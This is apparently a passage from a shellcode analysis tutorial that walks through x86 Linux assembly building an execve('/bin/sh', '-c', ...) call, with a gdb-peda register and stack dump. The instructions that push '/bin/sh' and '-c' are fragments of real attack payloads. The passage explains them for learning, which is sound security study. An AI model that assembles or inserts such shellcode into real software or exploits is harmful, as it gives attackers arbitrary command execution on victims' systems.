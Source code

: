 push edx

pushw 0x632d

mov edi, esp

This block of instructions is preparing the arguments for the syscall.

cdq zero's out edx, then we push it to the stack preparing a null terminated string.

pushw 0x632d is pushing '-c' to the stack which is our argument for the command and will go in argv\[\].

mov edi, esp is storing the address for this part of the arguments.  We will come back to edi in a bit when we are setting up ECX.
```nasm
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0xbfffefce ("/bin/sh")
ECX: 0x7fffffea 
EDX: 0x0 
ESI: 0xb7fb9000 --> 0x1b1db0 
EDI: 0xbfffefd6 --> 0x632d ('-c')
EBP: 0xbfffeff8 --> 0x0 
ESP: 0xbfffefce ("/bin/sh")
EIP: 0x804a057 --> 0x3e852
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804a04b <code+11>:	push   0x68732f
   0x804a050 <code+16>:	push   0x6e69622f
   0x804a055 <code+21>:	mov    ebx,esp
=> 0x804a057 <code+23>:	push   edx
   0x804a058 <code+24>:	call   0x804a060 <code+32>
   0x804a05d <code+29>:	ins    BYTE PTR es:[edi],dx
   0x804a05e <code+30>:	jae    0x804a060 <code+32>
   0x804a060 <code+32>:	push   edi
[------------------------------------stack-------------------------------------]
0000| 0xbfffefce ("/bin/sh")
0004| 0xbfffefd2 --> 0x68732f ('/sh')
0008| 0xbfffefd6 --> 0x632d ('-c')
0012| 0xbfffefda --> 0x84790000 
0016| 0xbfffefde --> 0x10804 
0020| 0xbfffefe2 --> 0xf0a40000 
0024| 0xbfffefe6 --> 0xf0acbfff 
0028| 0xbfffefea --> 0xa040bfff 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a057 in code ()
gdb-peda$
```
push 0x68732f

push 0x6e69622f

These two push instructions are pushing '/bin/sh' to the stack
